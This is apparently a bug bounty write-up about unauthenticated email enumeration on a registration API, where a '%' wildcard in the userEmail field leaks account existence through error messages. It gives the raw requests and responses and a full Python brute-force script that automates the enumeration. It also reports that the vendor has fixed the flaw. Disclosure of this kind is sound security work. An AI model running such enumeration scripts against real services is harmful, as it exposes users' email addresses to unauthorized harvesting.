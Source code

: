 ```yaml
---
layout: post
title: Unauthenticated Email Enumeration via API Fuzzing
date: 2024-02-21 15:08 +0530
categories: [bugbounty, writeup]
tags: [bugbounty,API,FUZZ] 
---
```



## Introduction

This blog post explores a recent finding I discovered in a bug bounty target. I stumbled upon a user enumeration issue that exposes email addresses without proper security measures. This vulnerability allows unauthorized users to enumerate all email addresses without authentication or rate limiting, potentially exposing sensitive information.

## Discovery

While testing the registration process, I encountered a POST request to a API endpoint used for email verification in my burp history tab. The endpoint was checking if the email address I entered during registration already existed or not.So i started 
Fuzzing the endpoint `/registration` with fuzzing payloads using intruder, I stumbled upon a 500 error code response when I injected a `%` character into the `userEmail` json parameter. The server returned a 500 Internal Server Error along with a  message

##### Request

```
POST /registration HTTP/2
Host: domain
Content-Type: application/json;charset=UTF-8

{"userEmail":"%"}

```

##### Response

```
There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052; nested exception is javax.persistence.EntityNotFoundException: Unable to find com.correnet.matcha.client.model.application.AccessGroup with id 7052

```
By observing this error message my assumption was the post request  sent to the registration endpoint with the `userEmail` parameter set to `%`. This input triggers a SQL query in the backend to select all records from the users table where the email column matches any value containing the `% ` character. The error message returned from the server indicates that there are 7052 entries in the system, giving insight into the number of user accounts present.Something like,

```sql
SELECT * FROM users WHERE email LIKE "%"
```
Further testing this endpoint i figured out the true and false case for the email address existence

##### False Response Case:
```

HTTP Request Body: {"userEmail":"adamcorta%"}
HTTP Response: "Could not find resource: ApplicationUser identified by adamcorta%"

```
##### True Response Case:
```

HTTP Request: {"userEmail":"adamcorte%"}

HTTP Response: "There was an unexpected error (type=Internal Server Error, status=500).</div><div>Unable to find com.correnet.matcha.client.model.application.AccessGroup with id"

or

HTTP Response: "Anonymous user (not logged in) not authorized for operation: [connect application user to Platform user]"


```

## Exploit

And based on above error messages, I( ChatGPT of course! ) made a wacky Python script to automate the email enumeration:

```python
import requests

def brute_force_attack():
  
    charset = 'abcdefghijklmnopqrstuvwxyz@._'
    initial_string = ''

    last_valid_username = None  
    
    consecutive_errors = 0  
    max_consecutive_errors = 70  
    for initial_char in charset:
        initial_string = initial_char
        while True:
            for char in charset:
                
                payload = initial_string + char + '%'
                response = send_request(payload)

                
                if "500" in response:
                    initial_string += char
                    print(initial_string)
                    break
                elif "403" in response:
                    last_valid_username = payload  
                    print(f"username: {last_valid_username}")
                    initial_string += char
                    consecutive_errors = 0
                    break
                else:
                    
                    consecutive_errors = 0
            else:
                
                consecutive_errors += 1
                if consecutive_errors >= max_consecutive_errors:
                    if last_valid_username is not None:
                        print(f"Last valid username: {last_valid_username}")
                    else:
                        print("No valid username found.")
                    return initial_string
                break  

    else:
        initial_string += charset[0]
    return initial_string



def send_request(payload):
    
    endpoint_url = '{domain}}'  
    url = f"{endpoint_url}/registration"
    headers = {'Content-Type': 'application/json;charset=UTF-8'}
    data = {"userEmail": payload}

    try:
        response = requests.post(url, json=data, headers=headers)
        response.raise_for_status()  
        return response.text
    except requests.exceptions.RequestException as e:
        return str(e)


result = brute_force_attack()
print("The correct username is:", result)
```
In response to this discovery, the program triaged and fixed the vulnerability by implementing input validation and captcha protection to the registration page.